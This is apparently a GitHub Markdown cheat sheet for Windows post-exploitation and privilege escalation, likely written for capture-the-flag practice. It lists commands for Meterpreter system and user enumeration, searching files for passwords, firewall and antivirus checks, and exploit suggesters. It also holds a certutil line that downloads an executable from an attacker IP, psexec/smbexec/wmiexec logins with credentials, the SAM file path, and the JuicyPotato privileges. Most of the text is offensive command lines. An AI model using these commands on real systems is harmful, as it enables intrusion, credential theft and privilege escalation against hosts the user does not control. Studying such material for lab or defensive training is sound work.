 
## System enumeration

### enumerate from meterpreter shell
```
sysinfo
```

### get shell
```
shell
```

### get system info from shell
```
systeminfo
```
this shows us installed date, boot time, hot fixes installed or not.

## User enumeration 

### Find out loggedin user and his privilages
```
whoami
whoami /priv
```

### Find all users on the host
```
net users
```

### Find details of specific user
```
net user janith
```

### Find whos on administrator group
```
net localgroup administrators
```

## Network enumeration

###Find host ip
```
ipconfig
ipconfig /all
```

## Searching for passwords

### Search for passwords
```
findstr /si password *.txt
```

## AV and Firewall enumeration

### Find all the services running
```
sc queryex type= service 
```

### Check firewall info
```
netsh advfirewall firewall dump
netsh firewall show state
```

### metersploit local exploit sugester
```
run post/multi/recon/local_exploit_suggester
```
run this script using the session 

### Run windows exploit suggester using systeminfo
```
python windows-exploit-suggester.py --database 2020-10-12-mssb.xls --systeminfo sysinfo.txt
```

## Downloading files into windows host
first go to c:/temp folder
```
certutil -urlcache -f http://10.10.14.32/temp.exe temp.exe
```

## Windows subsystem for linux

### Search for bash or wsl
```
where /R C:\windows bash.exe
where /R C:\windows wsl.exe
```
If you found connect to linux sub folder and search for history.

## Use credentials to login using psexec.py
```
psexec.py USER:PASSWORD@DOMAIN
smbexec.py USER:PASS@DOMAIN
wmiexec USER:PASS@DOAMIN
```

## connect to SMB using credentials
```
smbclient \\\\IP\\FOLDER -U USER
```


## SAM file path
```
C:\Windows\System32\Config
```

## Imporsanate privilage escalate

### Search for privilages
```
whoami /priv
```

### Use this command to search meterpreter session
```
getprivs
```

## These privilages are vulnerable to juicypotato attacks
```
SeImporsanatePrivilage Enable
SeAssignPrimaryToken Enable 
```

